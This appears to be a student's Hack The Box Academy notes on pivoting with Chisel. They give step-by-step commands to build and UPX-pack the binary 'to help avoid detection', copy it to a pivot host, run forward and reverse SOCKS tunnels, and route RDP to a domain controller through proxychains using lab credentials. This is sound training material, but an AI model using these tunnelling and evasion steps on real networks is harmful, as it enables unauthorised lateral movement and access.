 >[!TLDR]  `Chisel` can create a client-server tunnel connection in a firewall restricted environment.

## Setting Up & Using Chisel

### Clone Chisel
```go
git clone https://github.com/jpillora/chisel.git
```

### Build & Transfer Chisel Binary to Pivot Host
```go
cd chisel
```

```go
go build
```

Shrink the binary to help avoid detection
```go
upx brute chisel
```

Verify 
```go
du -hs chisel
```

```go
scp chisel ubuntu@10.129.202.64:~/
```

### On the Pivot host...
```go
./chisel server -v -p 1234 --socks5
```
	- Listens on incoming connections on port 1234
	- Forwards to networks accessible from the pivot host
### On the Attack host...connecting to Chisel server
```go
./chisel client -v 10.129.202.64:1234 socks
```

>[!tip] Modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel

### Edit proxychains
^e3cfc1
```go
datboyblu3@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...127.0.0.1 1080
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

### Use xRDP to pivot to DC
```go
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot

From the server specify with the `--reverse` option like below
```go
sudo ./chisel server --reverse -v -p 1234 --socks5
```

From the client...
```go
./chisel client -v 10.10.14.17:1234 R:socks
```

Edit the `/etc/proxychains` [[#^e3cfc1|edit-proxychains]]

### Connecting to the internal DC
```go
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Questions

Username
```go
ubuntu
```

Password
```go
HTB_@cademy_stdnt!
```

IP
```go
10.129.73.110
```

SSH
```go
ssh ubuntu@10.129.73.110:~/
```

SCP
```go
scp chisel ubuntu@10.129.73.110:~/
```